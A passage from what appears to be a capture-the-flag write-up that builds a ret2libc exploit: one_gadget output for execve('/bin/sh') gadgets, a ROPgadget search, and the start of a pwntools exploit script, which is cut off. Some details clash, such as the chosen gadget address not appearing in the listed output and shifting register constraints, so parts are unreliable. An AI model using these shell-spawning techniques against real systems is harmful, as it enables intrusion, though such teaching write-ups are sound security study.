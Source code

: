 ```
0xebd38 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebd3f execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebd43 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

What is interesting here is the contraints to successfully pop a shell for each of the gadgets. We will be focusing on the second gadget - `0xebc85`. This requires both `r10` and `rdx` to be `0`/null. After our libc leak, we can confirm with gdb that `r10` is already equal to 0, however `rdx` is equal to 0x1. So we need a way to set the value of it.

#### rdx=0x0
Since we have a libc leak, we can find many gadgets in libc that will set rdx to 0. The first one that stood out was:

```
$ ROPgadget --binary libc-2.35.so | grep "pop rdx"
...
0x000000000011f2e7 : pop rdx ; pop r12 ; ret
...
```

We don't care what the value of r12 is set to in this case (so also just set that to 0).

#### `rbp`-0x78 must be writable

The last step is to have the address at `rbp`-0x78 be writable. Since the `.bss` section is generally always writable, we will just set rbp to point there. As you may have guessed, if we input 6 bytes to fill up `charBuf`, then the next byte will set `rbp`.


# Complete Exploit

Putting it all together now:

```python=
from pwn import *
import struct

mainFunc = 0x400993

# libc leak
putsPlt = 0x400690
putsGot = 0x602020
popRdi = 0x400a83

# one gadget
# requirements:
#   rbp-0x78 is writable
#   [r10] == NULL
#   [rdx] == NULL
popRdxR12Offset = 0x11f2e7
oneShotOffset = 0xebc85
```